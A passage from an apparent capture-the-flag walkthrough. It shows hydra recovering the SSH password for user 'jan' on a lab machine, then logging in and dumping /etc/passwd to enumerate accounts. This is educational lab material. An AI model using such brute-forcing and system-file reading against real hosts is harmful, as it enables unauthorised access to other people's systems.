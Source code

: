 After a little while hydra returns:

```
[22][ssh] host: 10.10.36.240   login: jan   password: armando
```

So the password for jan is ```armando```!

---

## Exploitation

> What service do you use to access the server?

Now we have all the information we need to access the machine using ```SSH```!

So we can go ```ssh jan @10.10.36.240```, enter the password ```armando``` and we're in!

If we check the default directory with ```ls -la``:

```shell
jan@basic2:~$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 root jan    47 Apr 23  2018 .lesshst
```

We can try checking that ```.lesshst``` file, but jan doesn't seem to have the permissions necessary. 

Also checked out /etc/passwd to see if there was anything useful:

```shell
jan@basic2:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
tomcat9:x:999:999::/home/tomcat9:/bin/false
jan:x:1001:1001::/home/jan:/bin/bash
```

